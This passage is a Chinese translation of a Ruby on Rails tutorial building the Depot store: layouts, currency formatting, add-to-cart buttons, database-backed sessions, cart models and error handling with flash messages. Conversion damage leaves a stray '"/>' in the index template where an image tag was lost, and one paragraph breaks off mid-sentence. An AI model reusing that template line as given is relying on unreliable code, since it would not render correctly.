在 Rails 中指定和使用布局有许多方法。我们现在选择最简单的一种。如果您在 `app/views/layouts` 目录中创建一个与控制器同名的模板文件，那么该控制器渲染的所有视图都将默认使用该布局。所以现在就创建一个。我们的控制器叫 store，所以我们将布局命名为 `store.rhtml`。

```html
Download depot_e/app/views/layouts/store.rhtml
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
       "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
  <title>实用程序书籍在线商店</title>
  <%= stylesheet_link_tag "depot", :media => "all" %>
</head>
<body id="store">
  <div id="banner">
    
    <%= @page_title || "实用书架" %>
  </div>
  <div id="columns">
    <div id="side">
      <a href="http://www....">首页</a><br />
      <a href="http://www..../faq">问题</a><br />
      <a href="http://www....//news">新闻</a><br />
      <a href="http://www....//contact">联系我们</a><br />
    </div>
    <div id="main">
      <%= yield :layout %>
    </div>
  </div>
</body>
</html>
```

除了常见的 HTML 内容外，这个布局有三个 Rails 特有的项。第 6 行使用一个 Rails 辅助方法生成一个指向我们的 `depot.css` 样式表的 `<link>` 标签。



**图 7.2：添加布局后的目录**

在第 11 行，我们将页面标题设置为实例变量 `@page_title` 的值。然而，真正的魔法发生在第 21 行。当我们调用 `yield` 并传入名称 `:layout` 时，Rails 会自动用特定于页面的内容（由本次请求调用的视图生成的内容）进行替换。在我们的案例中，这将是 `index.html` 生成的目录页面。³

为了使这一切正常工作，我们需要向我们的 `depot.css` 样式表中添加内容。它开始变得有点长，因此我们不将其内联包含，而是从第 679 页开始展示完整列表。点击刷新，浏览器窗口看起来会像图 7.2 那样。它不会赢得任何设计奖项，但它会向我们的客户大致展示最终页面会是什么样子。

³ Rails 还会将变量 `@content_for_layout` 设置为渲染操作的结果，因此您也可以在布局中用这个值代替 yield。这是原始的方式（我个人觉得它更具可读性）。使用 `yield` 被认为更优雅。

### 7.3 迭代 B3：使用辅助方法格式化价格

我们的目录显示有一个问题。数据库将价格存储为数字，但我们希望将其显示为美元和美分。12.34 的价格应该显示为 $12.34，13 应该显示为 $13.00。

一个解决方案是在视图中格式化价格。例如，我们可以这样写

```erb
<span class="price"><%= sprintf("$%0.02f", product.price) %></span>
```

这会起作用，但它将货币格式化的知识嵌入到了视图中。如果我们以后想对应用程序进行国际化，这将是一个维护问题。

相反，让我们使用一个辅助方法将价格格式化为货币。Rails 内置了一个合适的——它叫做 `number_to_currency`。

在视图中使用我们的辅助方法很简单：在索引模板中，我们将

```erb
<span class="price"><%= product.price %></span>
```

改为

```erb
<span class="price"><%= number_to_currency(product.price) %></span>
```

果然，当我们点击刷新时，我们看到了一个格式精美的价格。

### 7.4 迭代 B4：链接到购物车

我们的客户对我们的进展非常满意。我们仍然处于开发的第一天，我们已经有了一个外观还算不错的目录显示。然而，她指出我们忽略了一个小细节——没有人能在我们的商店购买任何东西。我们忘记在目录显示中添加任何类型的 *添加到购物车* 链接。

回到第 57 页，我们使用了 `link_to` 辅助方法，从 Rails 视图生成指向控制器中另一个操作的链接。我们可以使用相同的辅助方法，在目录页面上每个产品的旁边放置一个 *添加到购物车* 链接。正如我们在第 91 页看到的，这是危险的。问题是 `link_to` 辅助方法生成一个 HTML `<a href=...>` 标签。当您点击相应的链接时，您的浏览器会向服务器生成一个 HTTP GET 请求。而 HTTP GET 请求不应该改变服务器上任何东西的状态——它们只应该用于获取信息。


## 任务 C：购物车创建

我们之前展示了使用 `:method => :post` 作为解决此问题的一种方案。Rails 提供了一个有用的替代方法：`button_to` 方法同样可以将视图连接回应用程序，但它通过生成一个仅包含单个按钮的 HTML 表单来实现。当用户点击该按钮时，会生成一个 HTTP POST 请求。而当我们想要执行诸如将商品添加到购物车等操作时，POST 请求正是所需。

让我们在目录页面中添加 `<button>Add to Cart</button>` 按钮。其语法与我们用于 `link_to` 的语法相同。

```
<%= button_to "Add to Cart", :action => :add_to_cart %>
```

然而，这里存在一个问题：`add_to_cart` 操作如何知道要将哪个产品添加到我们的购物车中？我们需要传递与该按钮对应的商品的 `id`。这很容易——我们只需在 `button_to` 调用中添加一个 `:id` 选项。我们的 `index.rhtml` 模板现在看起来像这样。

```
Download depot_f/app/views/store/index.rhtml

<h1>Your Pragmatic Catalog</h1>

<% for product in @products -%>
<div class="entry">
"/>
<h3><%= h(product.title) %></h3>
<%= product.description %>
<span class="price"><%= number_to_currency(product.price) %></span>
<%= button_to "Add to Cart", :action => :add_to_cart, :id => product %>
</div>
<% end %>
```

还有一个格式问题。`button_to` 创建一个 HTML `<form>`，而该表单又包含一个 HTML `<div>`。这两者通常都是块级元素，会出现在下一行。我们希望将它们放置在价格旁边，因此需要一点 CSS 魔法使它们成为行内元素。

```
Download depot_f/public/stylesheets/depot.css

#store .entry form, #store .entry form div {
    display: inline;
}
```

现在我们的索引页看起来就像下一页的图 7.3。



## 我们刚才做了什么

我们已经构建了商店目录显示的基础。步骤如下。

- 1. 创建一个新的控制器来处理以客户为中心的交互。
- 2. 实现默认的索引操作。
- 3. 在 `Product` 模型中添加一个类方法，用于返回可售商品。
- 4. 实现一个视图（一个 `.rhtml` 文件）和一个包含它的布局（另一个 `.rhtml` 文件）。
- 5. 创建一个简单的样式表。
- 6. 使用一个辅助方法按照我们希望的方式格式化价格。
- 7. 为每个商品添加一个按钮，允许用户将其添加到我们的购物车中。

是时候将所有内容签入并开始下一个任务了。

#### 动手时间

这里有一些你可以自己尝试的事情：

- 在侧边栏中添加日期和时间。它不必更新：只需显示页面显示时的值即可。
- 更改应用程序，使得点击书籍图像也会调用 `add_to_cart` 操作。（没关系，我知道我们还没编写那个操作....）提示：`link_to` 的第一个参数被放置在生成的 `<a>` 标签中，而 Rails 辅助方法 `image_tag` 构建一个 HTML `` 标签。在 http://api.rubyonrails.org 的 Rails API 文档中查找 `image_tag`，并将其调用作为 `link_to` 调用的第一个参数包含进去。
- `number_to_currency` 辅助方法的完整描述是 `number_to_currency(number, options = {})`。

    *将数字格式化为货币字符串。选项哈希可用于自定义输出的格式。数字可以使用 `:precision` 键指定精度级别；默认为 2。货币类型可以使用 `:unit` 键设置；默认为 `"$"`。单位分隔符可以使用 `:separator` 键设置；默认为 `"."`。分隔符可以使用 `:delimiter` 键设置；默认为 `","`。*

    ```
    number_to_currency(1234567890.50)      => $1,234,567,890.50
    number_to_currency(1234567890.506)     => $1,234,567,890.51
    number_to_currency(1234567890.50, :unit => "&pound;",
                                  :separator => ",", :delimiter => "")
                         => &pound;1234567890,50
    ```

    尝试设置各种选项，并观察对你的目录列表的影响。

    （你可以在 <http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime> 找到提示）

在本章中，我们将了解

- 会话和会话管理
- 非数据库模型
- 错误诊断和处理
- flash 消息
- 日志记录

# 第 8 章

既然我们有了展示包含所有精彩产品的目录的能力，那么能够销售它们就太好了。我们的客户同意，因此我们共同决定接下来实现购物车功能。这将涉及许多新概念，包括会话、错误处理和 flash 消息，那么让我们开始吧。

### 8.1 会话

在开始我们下一个极其成功的迭代之前，我们需要花一点时间来了解会话、Web 应用程序和 Rails。

当用户浏览我们的在线目录时，他或她（我们希望）会选择要购买的商品。惯例是将每个选中的商品添加到一个虚拟购物车中，该购物车保存在我们的商店里。在某个时候，我们的买家会拥有他们所需的一切，并前往我们网站的结账页面，在那里支付购物车中的商品费用。

这意味着我们的应用程序需要跟踪买家添加到购物车中的所有商品。这听起来很简单，除了一个微小的细节。用于浏览器和应用程序之间通信的协议是无状态的——它没有内置记忆。每次你的应用程序收到来自浏览器的请求，就像它们第一次交谈一样。这对浪漫主义者来说很酷，但当你试图记住用户已经选择了哪些产品时就不那么好了。

解决这个问题最流行的方法是在无状态的 HTTP 之上模拟有状态事务的概念。应用程序内部的一层尝试将传入请求与本地保存的会话数据进行匹配。如果特定的会话数据可以与来自特定浏览器的所有请求匹配，我们就可以使用该会话数据跟踪该浏览器用户的所有操作。

进行此会话跟踪的底层机制多种多样。有时应用程序将会话信息编码在每一页的表单数据中。有时编码的会话标识符被添加到每个 URL 的末尾（所谓的 URL 重写选项）。还有时应用程序使用 cookies。Rails 使用基于 cookie 的方法。

*Cookie* 是一个简单的命名数据块，由 Web 应用程序传递给 Web 浏览器。浏览器会记住它。随后，当浏览器向应用程序发送请求时，cookie 数据会随之发送。应用程序使用 cookie 中的信息将请求与存储在服务器上的会话信息进行匹配。这是一个针对混乱问题的笨拙解决方案。幸运的是，作为 Rails 程序员，你不必担心所有这些底层细节。（事实上，深入讨论它们的唯一原因是为了解释为什么 Rails 应用程序的用户必须在其浏览器中启用 cookies。）

与其让开发人员担心协议和 cookies，Rails 提供了一个简单的抽象。在控制器内部，Rails 维护一个特殊的类似哈希的集合，称为 `session`。在处理请求期间存储在此哈希中的任何键/值对，都将可在来自同一浏览器的后续请求中使用。

在 Depot 应用程序中，我们希望使用会话功能来存储每个买家购物车中的信息。但我们在这里必须稍微小心一点——问题比看起来要深层次。存在着韧性和可扩展性的问题。

默认情况下，Rails 将会话信息存储在服务器上的文件中。如果你只运行一个 Rails 服务器，这没有问题。但想象一下，你的商店应用程序变得如此受欢迎，以至于单台服务器机器容量耗尽，需要运行多台机器。某个用户的第一个请求可能被路由到一台后端机器，但第二个请求可能被发送到另一台。存储在第一台服务器上的会话数据在第二台服务器上不可用；用户会感到非常困惑，因为商品会在请求之间出现和消失。

因此，确保将会话信息存储在应用程序外部、可以在需要时在多个应用程序进程之间共享的地方，是一个好主意。如果这个外部存储是持久的，我们甚至可以重启服务器而不会丢失任何会话信息。我们将在 [第 21.2 节，*Rails 会话*](#)（第 438 页）中详细讨论设置会话信息，我们将看到有许多不同的会话存储选项。现在，让我们安排应用程序将会话数据存储在数据库中的一个表里。


#### 将会话存储在数据库中

Rails 使得将会话数据存储在数据库中变得简单。我们需要运行几个 Rake 任务来创建一个具有正确布局的数据库表。首先，我们将创建一个包含会话表定义的迁移。有一个预定义的 Rake 任务可以创建我们所需的迁移。

```
depot> rake db:sessions:create
exists db/migrate
create db/migrate/004_add_sessions.rb
```

然后，我们将应用迁移以将该表添加到我们的模式中。

```
depot> rake db:migrate
```

如果你现在查看你的数据库，你会发现一个名为 sessions 的新表。

接下来，我们必须告诉 Rails 在应用程序中使用数据库存储（因为默认是使用文件系统）。这是一个配置选项，所以不足为奇地你会在 `config` 目录中的一个文件里找到它。打开文件 `environment.rb`，你会看到一堆配置选项，全部被注释掉了。向下查找看起来像这样的选项：

```
# Use the database for sessions instead of the file system
# (create the session table with 'rake db:sessions:create')
# config.action_controller.session_store = :active_record_store
```

请注意最后一行被注释掉了。移除该行开头的 `#` 字符以激活会话的数据库存储。

```
# Use the database for sessions instead of the file system
# (create the session table with 'rake db:sessions:create')
config.action_controller.session_store = :active_record_store
```

下次你重启应用程序（停止并启动 `script/server`）时，它将会话数据存储在数据库中。何不现在就试试？

#### 购物车与会话

那么，刚刚费力地过完了所有这些理论，在实践中我们处于什么位置？我们需要能够在第一次需要时将会话分配给一个新的购物车对象，并在该会话中每次需要时再次找到该购物车对象。我们可以通过在 `store` 控制器中创建一个方法 `find_cart` 来实现这一点。一个简单（但冗长）的实现会是：

```
def find_cart
  unless session[:cart]        # if there's no cart in the session
    session[:cart] = Cart.new  # add a new one
  end
  session[:cart]               # return existing or new cart
end
```

请记住，Rails 使得当前会话对控制器来说看起来像一个哈希表，所以我们将通过使用符号 `:cart` 作为索引来将会话中的购物车存储起来。

我们目前尚不清楚购物车将是什么——目前让我们假设它是一个类，这样我们就可以使用 `Cart.new` 创建一个新的购物车对象。掌握了所有这些知识，我们现在可以安排在用户的会话中保持一个购物车。

事实证明，在 Ruby 中有一种更符合习惯的方式来实现同样的事情。

```
Download depot_i/app/controllers/store_controller.rb

private

def find_cart
    session[:cart] ||= Cart.new
end
```

这个方法相当巧妙。它使用了 Ruby 的条件赋值运算符 `||=`。如果哈希表中有一个与键 `:cart` 对应的值，该值将立即返回。否则，将创建一个新的购物车对象并分配给会话。然后返回这个新的购物车。

请注意，我们使 `find_cart` 方法成为私有方法。这防止了 Rails 将其作为控制器上的一个操作暴露出来。在我们进一步处理购物车时向此控制器添加方法时请小心——如果你在 `private` 声明之后添加它们，它们将在类外部不可见。新的操作必须放在 `private` 行之前。

### 8.2 迭代 C1：创建购物车

我们之所以研究会话，是因为我们需要一个地方来存放我们的购物车。我们已经搞定了会话部分，那么让我们继续实现购物车。现在，让我们保持简单。它保存数据并包含一些业务逻辑，所以我们知道它在逻辑上是一个模型。但是，我们需要一个 `cart` 数据库表吗？不一定。购物车与买家的会话绑定，只要该会话数据在我们的所有服务器之间都可用（当我们最终在多服务器环境中部署时），这可能就足够了。所以目前我们将假设购物车是一个普通类，看看会发生什么。我们将使用我们的编辑器在 `app/models` 目录中创建文件 `cart.rb`。[1] 实现很简单。购物车基本上是物品数组的一个包装器。当添加一个产品（使用 `add_product` 方法）时，它将被追加到物品列表中。

```
Download depot_i/app/models/cart.rb

class Cart
    attr_reader :items

    def initialize
        @items = []
    end
```

- 1. 请注意，我们没有使用 Rails 模型生成器来创建此文件。生成器仅用于创建数据库支持的模型。

```
def add_product(product)
  @items << product
end
```

细心的读者（是的，就是你们所有人）会注意到，我们的商品列表视图已经为每个产品包含了一个“添加到购物车”按钮。

```
<%= button_to "Add to Cart", :action => :add_to_cart, :id => product %>
```

此按钮链接回 `store` 控制器中的 `add_to_cart` 操作（我们还没有编写该操作）。它将产品 id 作为表单参数传递进来。[2] 这里我们开始看到 id 字段在我们的模型中有多重要。Rails 通过其 id 字段来识别模型对象（以及相应的数据库行）。如果我们将一个 id 传递给 `add_to_cart`，我们就在唯一标识要添加的产品。

现在让我们实现 `add_to_cart` 方法。它需要为当前会话找到购物车（如果还没有，则创建一个），将所选产品添加到该购物车，并显示购物车内容。因此，与其过多担心细节，不如我们就在这个抽象级别上编写代码。这是 `app/controllers/store_controller.rb` 中的 `add_to_cart` 方法。

```
def add_to_cart
  @cart = find_cart
  product = Product.find(params[:id])
  @cart.add_product(product)
end
```

在第 2 行，我们使用上一页实现的 `find_cart` 方法在会话中找到（或创建）一个购物车。下一行使用 `params` 对象从请求中获取 id 参数，然后调用 `Product` 模型查找具有该 id 的产品。第 4 行然后将此产品添加到购物车中。

`params` 对象在 Rails 应用程序内部很重要。它包含浏览器请求中传递的所有参数。按照惯例，`params[:id]` 包含操作要使用的对象的 id 或主键。我们在视图中的 `button_to` 调用中使用 `:id => product` 时设置了该 id。

向控制器添加 `add_to_cart` 方法时请小心。因为它被调用为一个操作，所以它必须是公共的，因此必须添加在我们为了隐藏 `find_cart` 方法而放入的 `private` 指令*之上*。

当我们点击浏览器中的一个“添加到购物车”按钮时会发生什么？

- 2. 说 `:id=>product` 是 `:id=>product.id` 的习惯性简写。两者都将产品的 id 传回给控制器。

Rails 在完成执行 `add_to_cart` 操作后会做什么？它会去 `app/views/store` 目录中寻找一个名为 `add_to_cart` 的模板。我们还没有编写一个，所以 Rails 会报错。让我们写一个简单的模板来让它满意（我们稍后会美化它）。

```
Download depot_f/app/views/store/add_to_cart.rhtml

<h1>Your Pragmatic Cart</h1>

<ul>
  <% for item in @cart.items %>
    <li><%= h(item.title) %></li>
  <% end %>
</ul>
```

所以，一切都连接好了，让我们在浏览器中点击刷新。你的浏览器可能会警告你即将再次提交表单数据（因为我们使用 `button_to` 将产品添加到了购物车，而它使用了一个表单）。点击确定，你应该会看到我们简单的视图显示出来。

购物车中有两个产品，因为我们提交了两次表单（一次是当我们最初操作时，得到了缺少视图的错误，第二次是在我们实现视图后重新加载该页面时）。

返回到 `http://localhost:3000/store`，这是商品目录主页，并将一个不同的产品添加到购物车中。你将看到购物车中除了原来的两个条目外，还有我们的新条目。看来我们的会话已经生效了。是时候向我们的客户展示了，所以我们把她叫过来，自豪地展示我们漂亮的新购物车。她多少有些

令我们沮丧的是，她发出了那种*啧啧*声，就像顾客们在告诉你"你显然不懂这个"之前会发出的声音。

她解释说，真正的购物车不会将两个相同的产品分开显示为两行。相反，它会显示一行该产品，并标明数量为2。看来我们需要为下一次迭代做准备了。

### 8.3 迭代 C2：更智能的购物车

看来我们需要找到一种方法，在购物车中的每个产品上关联一个数量。让我们创建一个新的模型类 `CartItem`，它既包含对产品的引用，也包含数量。

**下载** `depot_g/app/models/cart_item.rb`

```ruby
class CartItem
  attr_reader :product, :quantity

  def initialize(product)
    @product = product
    @quantity = 1
  end

  def increment_quantity
    @quantity += 1
  end

  def title
    @product.title
  end

  def price
    @product.price * @quantity
  end
end
```

现在，我们将在 `Cart` 的 `add_product` 方法中使用这个类。我们检查项目列表是否已经包含我们要添加的产品；如果包含，我们就增加数量，否则就添加一个新的 `CartItem`。

**下载** `depot_g/app/models/cart.rb`

```ruby
def add_product(product)
  current_item = @items.find {|item| item.product == product}
  if current_item
    current_item.increment_quantity
  else
    @items << CartItem.new(product)
  end
end
```

我们还将对 `add_to_cart` 视图进行快速修改，以使用这些新信息。

```erb
<h1>Your Pragmatic Cart</h1>

<ul>
    <% for cart_item in @cart.items %>
        <li><%= cart_item.quantity %> &times; <%= h(cart_item.title) %></li>
    <% end %>
</ul>
```

到目前为止，我们对自己的 Rails 技能相当有信心，于是我们自信地来到商店页面，点击某个产品的 [Add to Cart] 按钮。当然，没有什么比一点小小的自大更能触发现实的检验了。我们没有看到新的购物车，而是面对着一个相当残酷的错误屏幕，如下图所示。



起初，我们可能忍不住认为自己在 `cart.rb` 中拼错了什么，但快速检查后发现没问题。然而，当我们更仔细地查看错误消息时，它写着“undefined method 'product' for #<Product:...>”。这意味着它认为我们购物车中的项目是产品，而不是购物车项目。这就好像 Rails 没有发现我们所做的更改。

但是，查看源代码，我们唯一引用 `product` 方法的地方，是在 `CartItem` 对象上调用它。那么，为什么它认为 `@items` 数组包含产品，而我们的代码显然用购物车项目填充了它呢？

要回答这个问题，我们必须问，我们添加到的购物车是从哪里来的。没错，它在会话（session）中。而会话中的购物车是旧版本，是我们之前盲目地将产品追加到 `@items` 数组的那个版本。所以，当 Rails 从会话中取出购物车时，它得到的是一个装满产品对象的购物车，而不是购物车项目。这就是我们的问题所在。

确认这一点的最简单方法是删除旧会话，移除原始购物车实现的所有痕迹。由于我们使用的是数据库支持的会话，我们可以使用一个方便的 Rake 任务来清空会话表。

```
depot> rake db:sessions:clear
```

现在刷新页面，你将看到应用程序正在运行新的购物车和新的 `add_to_cart` 视图。

#### 故事的寓意

我们的问题是由于会话存储了旧版本的购物车对象，而它与我们新的源文件不兼容造成的。我们通过清空旧的会话数据解决了这个问题。因为我们在会话数据中存储的是完整的对象，每当我们更改应用程序的源代码时，我们可能就会与这些数据不兼容，从而导致运行时错误。这不仅仅是在开发期间的问题。

假设我们发布了 Depot 应用程序的第一版，使用了旧版本的购物车。我们有成千上万的客户在忙着购物。然后我们决定推出新的、改进的购物车模型。代码投入生产后，突然所有正在购物的顾客在往购物车里添加东西时发现他们遇到了错误。我们唯一的解决办法是删除会话数据，但这会丢失顾客的购物车内容。

这告诉我们，在会话数据中存储应用程序级别的对象通常是一个非常糟糕的主意。对应用程序的任何更改都可能要求我们在下次更新生产环境时丢失现有的会话。

相反，推荐的做法是在会话中只存储简单数据：字符串、数字等。将你的应用程序对象保存在数据库中，然后在会话数据中使用它们的主键来引用它们。如果我们正在将 Depot 应用程序投入生产，明智的做法是将 `Cart` 类设为一个 Active Record 对象，并将购物车数据存储在数据库中。那么会话将只存储购物车对象的 id。当请求进来时，我们从会话中提取这个 id，然后从数据库中加载购物车。虽然这不会在你更新应用程序时自动捕获所有问题，但它给了你一个处理迁移问题的机会。

不管怎样，我们现在有了一个购物车，它维护着所持有每个产品的数量，我们还有一个显示该数量的视图。下页的图 8.1 展示了它的样子。

很高兴我们有了些像样的成果，我们把客户叫过来，向她展示了我们上午的工作成果。她很满意——她可以看到网站开始初具规模。然而，她也感到不安，因为她刚刚在行业媒体上读到一篇关于电子商务网站每天如何被攻击和入侵的文章。她读到一种攻击方式是通过向 Web 应用程序发送带有错误参数的请求，希望能暴露漏洞和安全隐患。她注意到添加商品到购物车的链接看起来像 `store/add_to_cart/nnn`，其中 `nnn` 是我们的内部产品 id。她心生恶意，于是在浏览器中手动输入了这个请求，并给了产品 id 一个 "wibble" 的值。当我们的应用程序显示下一页的图 8.2 所示的页面时，她并不觉得印象深刻。这暴露了关于我们应用程序的太多信息，也显得相当不专业。看来我们的下一次迭代将花费在让应用程序更具韧性上。

3.  但我们不会在这个演示应用程序中这样做，因为我们想说明这些问题。
4.  事实上，我们可以将此功能抽象为所谓的过滤器（filter），让它自动发生。我们将从第 448 页开始介绍过滤器。



图 8.1：带数量的购物车

### 8.4 迭代 C3：处理错误

查看图 8.2 所示的页面，很明显我们的应用程序在 store 控制器的第 16 行抛出了一个异常。⁵ 那行是

```ruby
product = Product.find(params[:id])
```

如果找不到产品，Active Record 会抛出一个 `RecordNotFound` 异常，⁶ 我们显然需要处理它。问题随之而来——如何处理？

我们可以简单地忽略它。从安全角度来看，这可能是最好的做法，因为它不会向潜在的攻击者提供任何信息。然而，这也意味着如果我们的代码中有一个 bug 生成了错误的产品 id，我们的应用程序对外部世界来说将是无响应的——没有人会知道发生了错误。

相反，我们将在抛出异常时采取三个行动。首先，我们将使用 Rails 的日志记录工具（在第 244 页描述）将事实记录到内部日志文件中。其次，我们将向用户输出一条简短的消息（类似于 "Invalid product"）。第三，我们将重新显示目录页面，以便他们可以继续使用我们的网站。



⁵. 你的行号可能不同。我们在源文件中有一些与书籍相关的格式内容。
⁶. 这是在使用 MySQL 运行时抛出的错误。其他数据库可能会引发不同的错误。例如，如果你使用 PostgreSQL，它将拒绝接受 "wibble" 作为主键列的有效值，并抛出一个 `StatementInvalid` 异常。你需要相应地调整错误处理。

#### Flash！

正如你可能猜到的，Rails 有一种处理错误和错误报告的便捷方式。它定义了一个叫做 *flash* 的结构。Flash 是一个桶（实际上更像一个 `Hash`），你可以在处理请求时在里面存储东西。Flash 的内容在被自动删除之前，可供此会话中的下一个请求使用。通常 flash 用于收集错误消息。例如，当我们的 `add_to_cart` 操作检测到它接收到一个无效的产品 id 时，它可以将该错误消息存储在 flash 区域，然后重定向到 `index` 操作以重新显示目录。index 操作的视图可以提取错误并在目录页面顶部显示它。视图中可以通过 `flash` 访问器方法访问 flash 信息。

为什么我们不能将错误存储在任何旧的实例变量中？请记住，在我们的应用程序向浏览器发送重定向后，浏览器会向我们的应用程序发送一个新的请求。当我们收到那个


我们现在可以修改`add_to_cart`方法，来拦截无效的商品ID并报告问题。

```ruby
def add_to_cart
  begin
    product = Product.find(params[:id])
  rescue ActiveRecord::RecordNotFound
    logger.error("Attempt to access invalid product #{params[:id]}")
    flash[:notice] = "Invalid product"
    redirect_to :action => :index
  else
    @cart = find_cart
    @cart.add_product(product)
  end
end
```

`rescue`子句拦截了由`Product.find`抛出的异常。在处理程序中我们：

-   使用Rails日志记录器来记录错误。每个控制器都有一个日志记录器属性。这里我们用它在错误日志级别记录一条消息。
-   创建一个包含说明的提示信息。就像使用会话一样，你可以像访问哈希一样访问`flash`。这里我们使用了键`:notice`来存储我们的消息。
-   使用`redirect_to`方法重定向到商品目录显示页面。它接受多种参数（类似于我们在模板中遇到的`link_to`方法）。在这种情况下，它指示浏览器立即请求一个将调用当前控制器`index`动作的URL。为什么选择重定向，而不是直接在这里显示目录？如果我们重定向，用户的浏览器最终会显示一个类似`http://.../store/index`的URL，而不是`http://.../store/add_to_cart/wibble`。这样我们就暴露了更少的应用程序内部信息。同时也防止了用户通过点击刷新按钮再次触发错误。

这段代码使用了Ruby异常处理中一个不太为人知的特性。**else**子句仅在没有抛出异常时执行其后的代码。它允许我们为异常抛出时和未抛出时分别指定一条执行路径。

有了这段代码，我们可以重新运行客户遇到问题的查询。这次，当我们输入URL

```
http://localhost:3000/store/add_to_cart/wibble
```

我们不会在浏览器中看到一堆错误。相反，目录页面被显示出来。如果我们查看日志文件（位于log目录下的development.log）的末尾，我们会看到我们记录的消息。

```
Parameters: {"action"=>"add_to_cart", "id"=>"wibble", "controller"=>"store"}
Product Load (0.000427) SELECT * FROM products WHERE (products.id = 'wibble') LIMIT 1
Attempt to access invalid product wibble
Redirected to http://localhost:3000/store/index
Completed in 0.00522 (191 reqs/sec) ...

Processing StoreController#index ...
  Rendering within layouts/store
  Rendering store/index
```

所以，日志记录工作正常。但是提示信息没有出现在用户的浏览器上。那是因为我们没有显示它。我们需要在布局中添加一些内容，以便在存在提示信息时将其显示出来。下面的rhtml代码检查是否存在`notice`级别的提示信息，并在必要时创建一个包含它的新`<div>`。

```erb
<% if flash[:notice] -%>
    <div id="notice"><%= flash[:notice] %></div>
<% end -%>
```

那么，这段代码放在哪里呢？我们*可以*把它放在商品目录显示模板的顶部——即`index.rhtml`中的代码里。毕竟，那是我们现在希望它出现的位置。但随着我们继续开发应用程序，如果所有页面都能有一种标准化的方式来显示错误信息，那就太好了。我们已经使用Rails布局来为所有商店页面提供一致的外观，所以让我们把这个处理提示信息的代码添加到那个布局中。这样，如果我们的客户突然决定错误信息显示在侧边栏会更好看，我们只需修改一处，我们所有的商店页面都会更新。因此，我们新的商店布局代码现在如下所示。

下载 depot_h/app/views/layouts/store.rhtml

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
    <title>Pragprog Books Online Store</title>
    <%= stylesheet_link_tag "depot", :media => "all" %>
</head>
<body id="store">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
      <a href="http://www....">Home</a><br />
      <a href="http://www..../faq">Questions</a><br />
      <a href="http://www..../news">News</a><br />
      <a href="http://www..../contact">Contact</a><br />
    </div>
    <div id="main">
      <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
      <% end -%>
      <%= yield :layout %>
    </div>
  </div>
</body>
</html>
```

我们还需要一个新的CSS样式来为提示框添加样式。

```css
#notice {
  border: 2px solid red;
  padding: 1em;
  margin-bottom: 2em;
  background-color: #f0f0f0;
  font: bold smaller sans-serif;
}
```

